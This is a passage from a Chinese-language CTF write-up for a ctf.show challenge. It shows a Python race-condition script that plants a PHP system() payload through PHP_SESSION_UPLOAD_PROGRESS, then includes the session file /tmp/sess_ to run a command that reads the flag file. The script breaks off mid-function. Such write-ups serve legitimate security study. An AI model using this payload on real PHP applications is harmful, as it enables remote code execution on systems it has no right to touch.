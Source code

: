 成功读到：

![image-20250304234646993](assets/image-20250304234646993.png)

也可以用直接做：

```
import io 
import requests
import threading

sessid="wi"
url="http://77a3c121-d697-439f-aeba-fed139ce44d0.challenge.ctf.show/"

def write(session):
    while event.isSet():
        f=io.BytesIO(b'a'*1024*50)
        r=session.post(
            url=url,
            cookies={'PHPSESSID':sessid},
            data={
                "PHP_SESSION_UPLOAD_PROGRESS":"<?php system('tac fl0g.php');?>"
            },
            files={"file":('wi.txt',f)}
        )

def read(session):
    while event.isSet():
        payload="?file=/tmp/sess_"+sessid
        r=session.get(url=url+payload)

        if 'wi.txt' in r.text:
            print(r.text)
            event.clear()
        else :
```